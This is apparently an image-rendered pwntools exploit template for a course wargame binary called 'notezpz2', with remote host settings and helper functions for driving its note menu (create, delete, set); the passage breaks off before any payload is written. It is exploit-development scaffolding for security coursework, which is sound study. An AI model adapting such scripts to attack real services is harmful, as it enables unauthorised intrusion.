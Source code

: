 ```
# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './notezpz2' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 6691 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def create():
    p.recvuntil(b"): ", drop=True)
    p.sendline(b'c')

def delete(id):
    p.recvuntil(b"): ", drop=True)
    p.sendline(b'd')
    p.recvuntil(b"id: ", drop=True)
    p.sendline(id)

def set(id, input):
    p.recvuntil(b"): ", drop=True)
    p.sendline(b's')
    p.recvuntil(b"id: ", drop=True)
    p.sendline(id)
    p.recvuntil(b"question: ", drop=True)
    p.sendline(input)

def ask(id):
```
